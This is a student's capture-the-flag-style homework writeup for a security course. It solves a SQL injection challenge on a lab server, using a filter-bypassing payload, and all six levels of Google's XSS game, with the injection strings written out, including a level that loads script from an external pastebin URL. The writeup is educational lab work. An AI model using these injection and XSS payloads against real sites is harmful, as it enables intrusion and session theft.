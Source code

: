 # Writeup 1 - Web I

Name: Chris Tharratt
Section: 0101

I pledge on my honor that I have not given or received any unauthorized assistance on this assignment or examination.

Digital acknowledgement: Christopher Tharratt


## Assignment details
This assignment has two parts. It is due by 11/27/19 at 11:59PM.

**There will be late penalty of 5% per day late!**

### Part 1 (40 Pts)

Such a Quick Little, website!

[http://142.93.136.81:5000/](http://142.93.136.81:5000/)

`CMSC389R-{y0u_ar3_th3_SQ1_ninj@}`

Found be exploiting a SQL injection in the URL of the website. Saw that they were using
id=0, 1, 2.. in there URL, which indicates a SQL databse. Using the injection from the slides and changing the OR to be || since OR is detected, we can then find the flag. 
`http://142.93.136.81:5000/item?id=0'||'1'='1'-- -`

### Part 2 (60 Pts)
Complete all 6 levels of:

[https://xss-game.appspot.com](https://xss-game.appspot.com)

Produce a writeup. We will not take off points for viewing the source code and/or viewing hints, but we strongly discourage reading online write-ups as that defeats the purpose of the homework.

1. `<script>alert('all your scripts are belong to us')</script>` into the search bar. 

2.  `<img src="image.gif" onerror=alert("all your img are belong to us")>` into the status.
This one was a bit tricky since I didn't know much javascript or about the onerror status.

3. `' onerror="alert('all your frame are belone to us')"` into the URL.
Bit trickier, needed the hints and how frames worked. Didn't know that they could have an
onerror event. 

4. `'); alert('all your time are belong to us` into the timer box. 
Needed some hints with this one. Kept trying to utilize the text box to inject some
commands but couldn't get it to work for a while. Found a similar example online to how 
to get it to work.

5. `next=javascript:alert('all your groov are belong to us')` into the URL.
Easier to exploit than some of the others, just needed to know to use javascript: to
execute. 

6. `frame#HTTPS://pastebin.com/raw/xkzNc7Jd` into the URL.
Looking at the source code it was prety easy to avoid the regex by having HTTPS instead 
of https. Using pastebin as an easy vector to write the alert, all I needed to do was to
tell the site to go to that raw pastebin file. 
 

### Format

Part 1 and 2 can be answered in bullet form or full, grammatical sentences.

### Scoring

* Part 1 is worth 40 points
* Part 2 is worth 60 points

### Tips

Remember to document your thought process for maximum credit!

Review the slides for help with using any of the tools or libraries discussed in
class.

